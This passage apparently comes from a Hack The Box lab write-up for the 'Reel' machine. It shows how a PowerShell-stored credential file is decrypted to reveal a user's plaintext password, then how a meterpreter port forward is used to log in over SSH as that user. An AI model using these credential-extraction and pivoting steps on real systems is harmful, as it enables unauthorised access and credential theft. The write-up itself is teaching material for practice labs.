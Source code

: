 As we can see, the AutoLogon already returns the password of our current user. On the Desktop of nico we also find a file named `cred.xml` that contains this:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

We can extract the password for tom as follows:
```
PS > $text="01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692"
PS > $ss = $text | convertto-securestring
PS > $cred=New-Object System.Management.Automation.PSCredential -ArgumentList "HTB\Tom",$ss
PS > $cred.GetNetworkCredential() | fl *

UserName : Tom
Password : 1ts-mag1c!!!
Domain   : HTB
```

To connect to the SSH port we can forward a local port to the port 22 on Reel as follow using meterpreter command:
```
meterpreter > portfwd add -l 2222 -p 22 -r 127.0.0.1
[*] Local TCP relay created: :2222 <-> 127.0.0.1:22
```

Then we can SSH to Reel by running:
```bash
❯❯❯ ssh -p 2222 tom@localhost
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ECDSA key fingerprint is SHA256:jffiqnVqz/MrcDasdsjISFIcN/xtlDj1C76Yu1mDQVY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:2222' (ECDSA) to the list of known hosts.
tom@localhost's password: 

Microsoft Windows [Version 6.3.9600]                                                                                     
(c) 2013 Microsoft Corporation. All rights reserved.                                                                     

tom@REEL C:\Users\tom>
```
